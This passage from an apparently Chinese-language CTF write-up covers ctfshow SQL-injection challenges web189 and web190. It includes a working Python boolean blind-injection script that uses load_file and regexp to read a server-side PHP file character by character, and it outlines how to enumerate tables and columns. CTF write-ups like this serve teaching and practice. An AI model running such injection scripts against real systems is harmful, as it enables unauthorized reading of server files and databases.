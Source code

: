 `username=0&password=0`

![20220725174110](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725174110.png)

## web189

基本同上, 但过滤规则变了

hint 为 "flag在api/index.php文件中"

没想出来, 网上 wp 说是要读文件, 利用 username 为0或1时回显不同进行盲注

本来想用 substr 或者是 like, 但这里的 PHP 文件就是我们的注入点, 一股脑读出来耗时比较长而且特殊字符比较多 (比如回车 空格)

可以换成 `regexp` 正则匹配

```python
import requests

dicts='{1234567890-qwertyuiopasdfghjklzxcvbnm}'

flag = 'ctfshow{'

for i in range(1,64):
    for s in dicts:
        payload = 'if(load_file(\'/var/www/html/api/index.php\')regexp(\'{}\'),1,0)'.format(flag+s)
        res = requests.post('http://b3ec6e79-4275-45c7-96a2-1b82265538e1.challenge.ctf.show/api/index.php',data={'username':payload,'password':'1'})
        if res.text.find('67e5') != -1:
            flag += s
            print(flag)
            break
```

`regexp` 本地测试了一下发现其实不用写正则表达式, 也不用写 `%`, 例如 `{}` 这些在正则里的特殊字符也不用转义

![20220725181753](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725181753.png)

## web190

普通的布尔盲注

跑了一会发现 flag 不在 pass 里面...

pass 跑出来是 `admin`, 而且 `is_numberic()` 在这题里面不好绕过

查表

![20220725184733](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725184733.png)

查 `ctfshow_fl0g` 列名

![20220725214808](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725214808.png)

查 `f1ag` 数据
